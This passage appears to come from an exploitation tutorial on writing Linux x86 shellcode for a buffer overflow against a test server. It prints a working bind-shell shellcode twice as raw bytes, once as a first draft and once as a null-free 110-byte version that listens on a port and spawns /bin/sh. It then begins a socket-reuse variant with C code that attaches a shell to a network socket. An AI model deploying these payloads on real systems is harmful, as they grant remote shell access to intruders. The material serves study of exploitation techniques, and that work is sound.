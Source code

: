 and we finally generate the payload :

	0x31	0xdb	0xf7	0xe3	0xfe	0xc3	0xb0	0x66
	0x99	0x52	0x6a	0x01	0x6a	0x02	0x89	0xe1
	0xcd	0x80	0x89	0xc7	0xb8	0x66	0x00	0x00
	0x00	0x43	0x52	0x68	0x1f	0x41	0x00	0x00
	0x66	0x53	0x89	0xe1	0x6a	0x10	0x51	0x57
	0x89	0xe1	0xcd	0x80	0xb8	0x66	0x00	0x00
	0x00	0x01	0xdb	0x6a	0x05	0x57	0x89	0xe1
	0xcd	0x80	0xb8	0x66	0x00	0x00	0x00	0x43
	0x52	0x52	0x57	0x89	0xe1	0xcd	0x80	0x89
	0xc3	0x31	0xc0	0xb9	0x02	0x00	0x00	0x00
	0xb8	0x3f	0x00	0x00	0x00	0xcd	0x80	0x49
	0x79	0xf6	0xeb	0x0f	0x5e	0x31	0xc0  	0x50
	0x56	0x31	0xd2	0x89	0xe1	0x89	0xf3	0xb0
	0x0b	0xcd	0x80	0xe8	0xec	0xff	0xff	0xff
	0x2f	0x62	0x69	0x6e	0x2f	0x73	0x68

problem : there are null bytes so we have to change some instructions : for example `mov $0x3f, %eax` in `movb $0x3f, $al`.	At the end we ended with this **110 bytes shellcode** :

	0x31  0xdb  0xf7  0xe3  0xfe  0xc3  0xb0  0x66
	0x99  0x52  0x6a  0x01  0x6a  0x02  0x89  0xe1
	0xcd  0x80  0x89  0xc7  0x31  0xc0  0xb0  0x66
	0x43  0x52  0x66  0x68  0x1f  0x41  0x66  0x53
	0x89  0xe1  0x6a  0x10  0x51  0x57  0x89  0xe1
	0xcd  0x80  0x31  0xc0  0xb0  0x66  0x01  0xdb
	0x6a  0x05  0x57  0x89  0xe1  0xcd  0x80  0x6a
	0x66  0x58  0x43  0x52  0x52  0x57  0x89  0xe1
	0xcd  0x80  0x89  0xc3  0x31  0xc0  0x31  0xc9
	0xb1  0x02  0xb0  0x3f  0xcd  0x80  0x49  0x79
	0xf9  0xeb  0x0f  0x5e  0x31  0xc0  0x50  0x56
	0x31  0xd2  0x89  0xe1  0x89  0xf3  0xb0  0x0b
	0xcd  0x80  0xe8  0xec  0xff  0xff  0xff  0x2f
	0x62  0x69  0x6e  0x2f  0x73  0x68

**Note 1** : the final payload is at the end of the paper.
	
### --[ 3.2 - Use Socket Descriptor Reuse Shellcode
I won't all explain in this part because I already explained lots of thing in the prev' part. Here the idea is to use the already existing socket. So before to creating of our shellcode I will just motify the `server.c` to simulate the attack. to do so I will just add this piece of code in server.c after "strcpy(response, buffer);"
	
```C
	char	*cmd[] = {"/bin/sh", NULL, NULL};
	if (fork() == 0) // we are in the child
   {
		dup2(s, 0);		//s is the socket descriptor
		dup2(s, 1);
		dup2(s, 2);
		//setresuid(0,0,0);
		execve(cmd[0], cmd, NULL);
    }
```
